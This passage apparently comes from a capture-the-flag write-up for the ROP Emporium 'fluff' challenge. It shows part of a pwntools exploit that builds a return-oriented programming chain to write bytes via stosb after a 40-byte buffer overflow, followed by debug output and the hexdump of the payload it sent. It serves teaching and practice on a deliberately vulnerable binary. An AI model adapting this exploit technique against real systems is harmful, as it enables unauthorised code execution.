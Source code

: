 ```python
rop.raw(writable_data_segment)

# Prepare the AL register
target = b"f"
initial_al = 0x0b
prepare_al(target, initial_al, rop, io.elf)

# Write the byte from the AL register to the writable data segment
rop.raw(stosb_gadget)

# Build the payload
offset = 40
padding = b"A" * offset
payload = b"".join([
    padding,
    rop.chain()
])

# Pwn!
io.clean()
io.sendline(payload)
io.interactive()
```

The code above points the `RDI` register to the writable `.data` segment so that the `stosb` operation will write the byte from `AL` to the memory address pointed to by `RDI`.

```
$ python3 exploit.py
[+] Starting local process './fluff' argv=[b'./fluff'] : pid 7489
[DEBUG] Wrote gdb script to '/tmp/pwni80v1zv8.gdb'
    b *0x00400639
[*] running in new terminal: /usr/bin/gdb -q  "./fluff" 7489 -x /tmp/pwni80v1zv8.gdb
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./fluff" 7489 -x /tmp/pwni80v1zv8.gdb']
[+] Waiting for debugger: Done
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[*] '/home/kali/ctf/rop-emporium/fluff/x64/fluff'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] Loaded 13 cached gadgets for './fluff'
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[DEBUG] Received 0x68 bytes:
    b'fluff by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'You know changing these strings means I have to rewrite my solutions...\n'
    b'> '
[DEBUG] Sent 0x61 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  a3 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030  28 10 60 00  00 00 00 00  2a 06 40 00  00 00 00 00  │(·`·│····│*·@·│····│
    00000040  00 40 00 00  00 00 00 00  c7 c4 3f 00  00 00 00 00  │·@··│····│··?·│····│
    00000050  28 06 40 00  00 00 00 00  39 06 40 00  00 00 00 00  │(·@·│····│9·@·│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
```